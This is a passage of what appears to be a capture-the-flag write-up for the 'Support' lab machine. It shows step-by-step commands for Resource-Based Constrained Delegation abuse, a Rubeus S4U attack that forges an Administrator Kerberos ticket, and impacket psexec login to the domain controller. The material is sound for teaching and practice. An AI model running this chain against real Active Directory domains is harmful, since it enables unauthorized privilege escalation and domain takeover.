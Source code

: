 **creds**:
```plaintext
FAKE-COMP01:Password123
```

Now we configure the Resource-Based Constrained Delegation:

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

Verify it:

```powershell
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```

### Perform S4U Attack
This attack will allow us to acquire the Kerberos ticket on behalf of the Administrator.

Use Rubeus:

```powershell
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

Get the value of rc4_hmac and generate Kerberos ticket for the administrator:

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

Grab the last ticket (Base64) for the Administrator and save it as ticket.kirbi.b64 in our attacker's machine.

![alt text](Snapshots/Support-image-3.png)

Now decode the file:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

Convert the ticket.kirbi to ticket.cache:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Using the ticket.cache, we login to the machine as Admin via impacket's psexec:

```bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

![alt text](Snapshots/Support-image-4.png)
